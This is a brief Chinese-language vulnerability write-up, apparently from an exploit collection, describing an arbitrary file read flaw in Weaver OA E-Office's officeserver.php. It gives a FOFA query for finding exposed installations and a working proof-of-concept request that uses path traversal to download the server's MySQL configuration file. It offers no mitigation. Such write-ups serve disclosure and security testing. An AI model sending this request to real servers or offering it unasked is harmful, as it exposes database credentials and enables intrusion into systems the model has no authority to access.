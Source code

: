# 泛微OA E-Office officeserver.php 任意文件读取漏洞

## 漏洞描述

泛微OA E-Office officeserver.php文件存在任意文件读取漏洞，攻击者通过漏洞可以下载服务器上的任意文件

## 漏洞影响

```
泛微OA E-Office
```

## FOF

```
app="泛微-EOffice"
```

## 漏洞复现

登录页面

![image-20220520140739224](images/202205201407281.png)

验证POC

```
/iweboffice/officeserver.php?OPTION=LOADFILE&FILENAME=../mysql_config.ini
```

![image-20220520140749985](images/202205201407034.png)